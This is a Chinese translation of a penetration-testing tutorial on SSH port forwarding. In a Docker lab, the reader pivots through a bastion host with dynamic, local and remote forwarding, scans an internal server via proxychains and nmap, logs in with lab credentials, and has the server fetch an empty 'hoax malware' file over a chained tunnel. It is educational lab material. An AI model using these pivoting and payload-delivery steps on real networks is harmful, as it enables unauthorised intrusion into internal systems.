





# 使用端口转发访问内部机器—渗透测试

> 原文：<https://infosecwriteups.com/gain-access-to-an-internal-machine-using-port-forwarding-penetration-testing-518c0b6a4a0e?source=collection_archive---------0----------------------->


端口转发是一种技术，其中一台机器中的端口被隧道传输到另一台机器中的端口。简而言之，对机器 *M1* 的端口 *P1* 的请求被“转发”为对机器 *M2* 的端口 *P2* 的请求。

在[之前的博客](https://medium.com/bugbountywriteup/gain-access-to-an-internal-machine-using-port-forwarding-setup-experiment-environment-dd0a50110650)中，我们设置了如下图所示的模拟设置的实验环境。在这篇博客中，我们将在学习**端口转发**的同时进行渗透测试。



情景视觉

# 概述

作为一名渗透测试人员，您有以下信息:

*   **数据中心**在***172 . 17 . 0 . 0/16***子网中，**企业**在 ***10.10.10.0/24* 子网**中。
*   **你的**机的 IP 地址是***172 . 17 . 0 . 1****。*
*   **堡垒服务器** **面向数据中心网络**的网络接口 IP 地址为***172 . 17 . 0 . 2****，而**面向企业网络**的网络接口 IP 地址为***10 . 10 . 2****。**
*   ***内部服务器**的 IP 地址为 ***10.10.10.3*** 。*
*   ***内部服务器** **没有接入互联网**。(不知何故)*
*   *堡垒服务器的 **SSH 登录凭证**是`bastion:fortwall`，内部服务器的是`admin:homeportal`。*

*你的意图是**在内部服务器中放置一个恶作剧恶意软件**。*

*我建议读者理解与读者端机器相关的端口转发术语。*

# *侦察堡垒服务器*

*首先扫描 bastion 服务器中开放的端口，找出哪个端口为 SSH 服务。*

**

*堡垒服务器的扫描结果*

*SSH 服务器运行在堡垒服务器的**端口 2222** 以及你从 social engineering works 获得的凭证！*

# *Recon 内部服务器—动态端口转发*

*是时候让堡垒服务器上的 **pivot** 重新侦查内部网络了( *10.10.10.0/24* )。如何对 IP 地址为 *10.10.10.3* 的内部服务器进行侦察？你可以在 bastion 服务器中安装 nmap 和其他工具，但这似乎并不隐秘！*

*您计划在本地主机中分配一个端口，将流量传输到堡垒服务器，堡垒服务器代表您发出请求。这种方法被称为**动态端口转发**。*

```
*[localhost]-**9050** <-> **2222**-[bastion]-**bport_any** <-> **iport_any**-[internal_server]-------> request
<------- response*
```

*SSH 客户端提供了一组强大的选项来执行端口转发。要执行动态端口转发以与内部网络通信，请运行以下命令。*

```
***ssh -D 9050 -p2222 -Nf bastion@172.17.0.2***
```

*`-D`选项用于打开端口进行动态端口转发。上面的命令打开 localhost 中的端口 9050，对它的任何请求都被转发到 bastion，bastion 动态地打开一个端口进行通信。*

***其他选项:***

*`-p`:指定向哪个端口发出 SSH 请求。
`-N`:不执行任何命令。(我不需要 shell)
`-f`:后台运行 SSH。*

*此外，您可以配置代理链来运行 nmap。打开文件`/etc/proxychains.conf`，在`[ProxyList]`部分添加以下记录(制表符分隔):*

```
*socks5    127.0.0.1    9050* 
```

*现在，您通过位于 172.17.0.2 的堡垒服务器在位于 10.10.10.3 的内部服务器上执行端口扫描，以找到服务 SSH 请求的端口。为此，您可以运行以下命令:*

```
*proxychains nmap -e docker0 -Pn -sT 10.10.10.3*
```

*选项强制 nmap 使用特定的接口(在我们的例子中是 172.17.0.1)*

**

*通过动态端口转发的堡垒服务器扫描内部服务器的结果*

# *登录内部服务器—本地端口转发*

*现在您已经知道内部服务器在端口 2222 提供 SSH 服务，您决定使用您拥有的凭证登录到服务器。由于内部服务器位于另一个专用网络中，您计划通过 bastion 服务器将发送到您可以到达的网络接口端口之一的请求端口转发到内部服务器的端口 2222。*

*当您想要将服务器中的服务公开到您可以到达的接口的端口时，使用**本地端口转发**。*

```
*[localhost]-**2323** <-> **2222**-[bastion]-**bport** <-> **2222**-[internal_server]-------> request
<------- response*
```

*要在本地机器上公开内部服务器的 SSH 服务，请运行以下命令。*

```
***ssh -L 2323:10.10.10.3:2222 -p2222 -Nf bastion@172.17.0.2***
```

*`-L`选项用于本地端口向远程服务器转发请求。在这种情况下，对机器端口 2323 的请求通过与 bastion 服务器的会话到达端口 2222 的内部服务器。作为该选项的值提供的 IP 地址(即 10.10.10.3)应该可以被 bastion 服务器访问到。*

*因此，通过使用社会工程凭据运行以下命令，您应该能够登录到内部服务器。*

```
*ssh -p2323 admin@localhost*
```

**

*通过本地端口转发登录内部服务器*

# *安装恶作剧恶意软件—远程端口转发*

*最后一步是将恶作剧恶意软件安装到内部服务器上。你计划在你的终端托管一个 HTTP 文件服务器，在内部服务器托管恶意软件。请记住，内部服务器无法访问互联网。但是，它能够访问企业子网中的所有节点。因此，您需要通过 bastion 服务器向端口 8000 的内部服务器公开在您这一端的端口 8080 上运行的 HTTP 文件服务。*

*当您想要将运行在您机器上的服务暴露给远程服务器可到达的接口的端口时，使用**远程端口转发**。*

```
*[localhost]-**8080** <-> **2222**-[bastion]-**8000** <-x-> **iport**-[internal_server]<------- request
-------> response*
```

*要通过堡垒服务器向内部服务器公开本地机器的 HTTP 服务，请运行以下命令。*

```
***ssh -R 8000:127.0.0.1:8080 -p2222 -Nf bastion@172.17.0.2***
```

*`-R`选项用于远程端口转发一个响应到远程服务器。在这种情况下，对 bastion 服务器端口 8000 的请求到达您的计算机端口 8080。作为该选项的值提供的 IP 地址应该可以由您的计算机“分配”。(你也可以用`localhost`来代替你电脑的 IP 地址。Localhost =您的计算机的本地主机)*

*在另一个终端中，通过运行`touch hoax_malware`创建一个名为`hoax_malware`的空恶作剧恶意软件文件，并使用以下命令启动 HTTP 文件服务器。*

```
*python3 -m http.server 8080*
```

*但是等等！您意识到远程端口转发只能到达 bastion 服务器的本地主机网络接口。*

**

*远程端口仅转发到堡垒服务器的本地主机*

## *通过本地转发的端口进行远程端口转发*

*这不是一种端口转发，而是试图展示混合多种类型的端口转发技术的威力。你想以某种方式安装恶作剧恶意软件到内部服务器。你的思想变得狂野，创造力达到顶峰。你想"*如果我可以远程转发到内部服务器本身会怎么样？不管怎样，我可以通过我的机器的端口 2323 对内部服务器进行 SSH 访问。您的手指很快在您的渗透测试机器上发出下面的命令，然后您重新启动 HTTP 文件服务器。**

```
***ssh -R 8000:127.0.0.1:8080 -p2323 -Nf admin@localhost** python3 -m http.server 8080*
```

*然后，切换到内部服务器外壳终端，并尝试再次下载恶作剧恶意软件。*

```
*wget http://localhost:8000/hoax_malware*
```

**

*复合端口转发*

***宾果！任务完成！***

****注意:*** *有多种方法可以获得内部服务器的访问权限。这一系列具体步骤的目的是学习端口转发。**

# *现实生活中更多端口转发的例子*

***Docker** ，知名集装化平台广泛使用**本地港转**。`--publish`或`-p`选项启用它。冒号前面指定的端口`:`是主机上的端口，通过隧道连接到 docker 容器的端口，对应于它正在运行的服务。*

*Ngrok ，一个网络工具，可以让一个人向世界开放一个或多个端口！是的，我是认真的，全世界！我相信它使用了远程端口转发技术，通过运行 ngrok 实用程序时屏幕上弹出的 ngrok 服务的`hostname:port`,将运行在本地机器端口上的服务公开给外界。*

***Burpsuite** ，一个 web 应用渗透测试工具，使用动态端口转发。这里，代理服务器就是本地主机本身。代理服务器通常运行在端口 8080。Burpsuite 处理和/或存储请求，并将其转发给浏览器试图访问的服务器。然而，响应返回给 Burpsuite，burp suite 将响应转发给浏览器，并最终呈现在屏幕上。*

*希望你喜欢这篇文章！*